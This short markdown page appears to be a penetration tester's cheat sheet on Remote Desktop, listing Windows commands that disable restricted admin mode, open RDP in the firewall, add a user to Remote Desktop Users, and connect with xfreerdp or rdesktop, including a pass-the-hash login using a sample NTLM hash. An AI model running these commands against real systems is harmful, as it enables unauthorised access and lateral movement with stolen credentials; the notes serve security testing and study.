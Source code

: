 ```yaml
---
title: Remote Desktop
parent: General Usage
layout: default
nav_order: 22
---
```


Enabling restricted admin (to use RDP):\
`New-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Lsa'  -Name 'DisableRestrictedAdmin' -Value 0 -PropertyType DWORD`

Firewall for RDP:\
`Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0;Enable-NetFirewallRule -DisplayGroup "Remote Desktop"`

Add yourself to be able to remote (both works):\
`net localgroup "Remote Desktop Users" "UserName" /add`\
OR\
`powershell.exe Add-LocalGroupMember -Group "Remote Desktop Users" -Member "UserName"`

xfreerdp:\
`xfreerdp /cert:ignore /v:server /port:port /u:user@domain /p:password /size:1720x880 /drive:kalitemp,/tmp/ +clipboard`

rdesktop (domain connection use this):\
`rdesktop -u user@domain -p password -g 90% IP`

Pass the **hash**, no need to add LM hash! (add `/sec:tls` if this does not work):\
`xfreerdp /cert:ignore /v:server /port:port /u:user@domain /pth:4c027eb32130982d1b960575d66f31d9/drive:kalitemp,/tmp/ +clipboard`

If cannot connect, try adding append this to the end of command:\
`/tls-seclevel:0`
